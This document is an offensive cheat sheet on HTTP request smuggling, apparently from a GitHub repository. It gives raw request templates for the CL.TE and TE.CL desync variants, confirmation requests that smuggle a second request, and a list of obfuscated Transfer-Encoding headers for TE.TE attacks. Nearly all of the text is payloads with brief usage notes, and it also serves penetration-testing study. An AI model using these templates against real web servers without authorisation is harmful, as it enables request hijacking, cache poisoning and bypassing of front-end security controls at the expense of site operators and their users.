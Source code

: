 # HTTP Smuggling
**Content-Length (body) is DECIMAL Bytes**
**Chunk size is HEX Bytes**

**Note: Always append two lines (`\r\n\r\n`) after Null chunk**
**Note: Each line (`\r\n`) is 2 bytes long**
**Note: Request does not care if method is on new lines :**
```
P
O
S
T / HTTP/1.1
```

## Headers
```
Transfer-Encoding: chunked
Connection: Keep-Alive
```
## CL.TE
**Client sends Incomplete chunks**
**Nicer to test this first**
```
POST / HTTP/1.1  
Host: vulnerable-website.com  
Transfer-Encoding: chunked  
Content-Length: 4  
  
1
A
[<SMUGGLE>]
```
- Incomplete chunk is sent - Server hangs expecting Zero Chunk

### Confirmation
```
POST /search HTTP/1.1  
Host: <HOST>
Content-Length: 49  
Transfer-Encoding: chunked  
  
<HEX LEN BODY>
<BODY>
0
  
GET /404 HTTP/1.1  
Foo: x
```

## TE.CL
**Client sends larger Content-Length than chunk**
```
POST / HTTP/1.1  
Host: <HOST>
Transfer-Encoding: chunked  
Content-Length: 6
  
0

[<SMUGGLE>]
```
-Zero chunk (3 bytes) is sent - Server hangs expecting 3 more bytes

### Confirmation
```POST /search HTTP/1.1  
Host: <HOST>
Content-Type: application/x-www-form-urlencoded
Content-Length: <2 + LENGTH HEX>
Transfer-Encoding: chunked

<HEX LENGTH OF BODY>
POST /404 HTTP/1.1
Host: <HOST>
Content-Type: application/x-www-form-urlencoded
Content-Length: <11 + LEN ENTIRE NEXT REQUEST>

x=
0


```

## TE.TE
**Obfuscating T.E Header hangs Client / Server**
**Try with above payloads to determine CL.TE or TE.CL**
### Obfuscating Payloads
- `Transfer-Encoding: xchunked`
- `Transfer-Encoding : chunked`
- `Transfer-Encoding: chunked`
- `Transfer-Encoding: x`
- `Transfer-Encoding:[tab]chunked`
- `[space]Transfer-Encoding: chunked`
- `X: X[\n]Transfer-Encoding: chunked`
- `Transfer-Encoding
	: chunked`


